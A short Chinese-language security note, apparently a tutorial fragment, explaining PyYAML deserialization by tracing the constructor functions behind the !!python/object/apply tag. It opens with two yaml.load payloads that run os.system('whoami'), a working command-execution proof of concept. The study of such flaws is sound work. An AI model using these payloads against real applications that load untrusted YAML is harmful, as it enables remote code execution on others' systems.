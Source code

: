 ```php
yaml.load('!!python/object/apply:os.system ["whoami"]')

yaml.load("""
!!python/object/apply:os.system
- whoami
""")
```

在constructor.py找到对应函数

- python/object/apply--&gt;construct\_python\_object\_apply
- python/object/new--&gt;construct\_python\_object\_new

```py
    def construct_python_object_apply(self, suffix, node, newobj=False):
        # Format:
        #   !!python/object/apply       # (or !!python/object/new)
        #   args: [ ... arguments ... ]
        #   kwds: { ... keywords ... }
        #   state: ... state ...
        #   listitems: [ ... listitems ... ]
        #   dictitems: { ... dictitems ... }
        # or short format:
        #   !!python/object/apply [ ... arguments ... ]
        # The difference between !!python/object/apply and !!python/object/new
        # is how an object is created, check make_python_instance for details.
        if isinstance(node, SequenceNode):
            # 如果节点为序列类型，则初始化参数、关键字、状态、列表和字典为空
            args = self.construct_sequence(node, deep=True)
            kwds = {}
            state = {}
            listitems = []
            dictitems = {}
        else:
             # 如果节点为映射类型，则从值中提取参数、关键字、状态、列表和字典，其实就反应了该类标签所可以接受得参数类型。
            value = self.construct_mapping(node, deep=True)
            args = value.get('args', [])
            kwds = value.get('kwds', {})
            state = value.get('state', {})
            listitems = value.get('listitems', [])
            dictitems = value.get('dictitems', {})
        instance = self.make_python_instance(suffix, node, args, kwds, newobj)
        #如果存在创建 Python 对象实例
        if state:
            self.set_python_instance_state(instance, state)
        if listitems:
            instance.extend(listitems)
        if dictitems:
            for key in dictitems:
                instance[key] = dictitems[key]
        return instance

    def construct_python_object_new(self, suffix, node):
        return self.construct_python_object_apply(suffix, node, newobj=True)
```
